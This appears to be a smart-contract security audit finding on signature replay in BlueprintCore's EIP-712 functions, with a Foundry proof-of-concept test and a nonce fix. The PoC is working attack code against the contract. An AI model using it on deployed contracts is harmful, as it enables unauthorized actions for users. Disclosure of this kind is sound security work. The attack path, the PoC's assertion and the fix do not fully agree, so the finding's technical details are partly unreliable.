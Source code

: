 Energetic Rainbow Otter

Medium

# Insufficient Signature Replay Protection

### Summary

- The lack of nonce in EIP-712 signatures in EIP712.sol and BlueprintCore.sol will cause unauthorized actions for users as an attacker will replay valid signatures.

### Root Cause

- In EIP712.sol: getRequestProposalDigest and getRequestDeploymentDigest, the EIP-712 structs (PROPOSAL_REQUEST_TYPEHASH, DEPLOYMENT_REQUEST_TYPEHASH) do not include a nonce, allowing signature replay.

### Internal Pre-conditions

- A user needs to sign a valid transaction (e.g., createProjectIDAndProposalRequestWithSig).

### External Pre-conditions

- The attacker needs to intercept the user’s signature (e.g., via off-chain channels or gasless transaction forwarding).

### Attack Path

- User signs a createProjectIDAndProposalRequestWithSig transaction and submits it via a gasless forwarder (e.g., Biconomy).
- Attacker intercepts the signature and replays it in createAgentWithSigWithNFT, using the same projectId and parameters.
- The replayed signature is accepted, creating an unauthorized agent linked to the user’s address.

### Impact

- The user suffers unauthorized agent creation, potentially leading to loss of control over their projects or resources.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";

contract SignatureReplayTest is Test {
    BlueprintCore blueprintCore;
    address user = address(0x1);
    address attacker = address(0x2);

    function setUp() public {
        blueprintCore = new BlueprintCore();
        vm.deal(user, 1 ether);
        vm.deal(attacker, 1 ether);
    }

    function test_SignatureReplay() public {
        // User signs a proposal request
        bytes32 projectId = keccak256("project1");
        string memory base64RecParam = "param";
        string memory serverURL = "url";
        bytes32 digest = blueprintCore.getRequestProposalDigest(projectId, base64RecParam, serverURL);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, digest); // Simulated signature with private key 1
        bytes memory signature = abi.encodePacked(r, s, v);

        // User submits the signed transaction
        vm.startPrank(user);
        blueprintCore.createProjectIDAndProposalRequestWithSig(projectId, base64RecParam, serverURL, signature);
        vm.stopPrank();

        // Attacker replays the signature
        vm.startPrank(attacker);
        blueprintCore.createProjectIDAndProposalRequestWithSig(projectId, base64RecParam, serverURL, signature);
        vm.stopPrank();

        // Check if replay succeeded
        bytes32 userRequestId = blueprintCore.getLatestProposalRequestID(user);
        bytes32 attackerRequestId = blueprintCore.getLatestProposalRequestID(attacker);
        assertTrue(attackerRequestId != bytes32(0), "Replay should create a request for attacker");
    }
}
```

### Mitigation

- Add a nonce to EIP-712 structs:

```solidity
 bytes32 public constant PROPOSAL_REQUEST_TYPEHASH = 
    keccak256("ProposalRequest(bytes32 projectId,string base64RecParam,string serverURL,uint256 nonce)");
mapping(address => uint256) public userNonces;
function createProjectIDAndProposalRequestWithSig(..., uint256 nonce, bytes memory signature) public {
    require(userNonces[msg.sender] == nonce, "Invalid nonce");
    userNonces[msg.sender]++;
    // Existing logic
}
```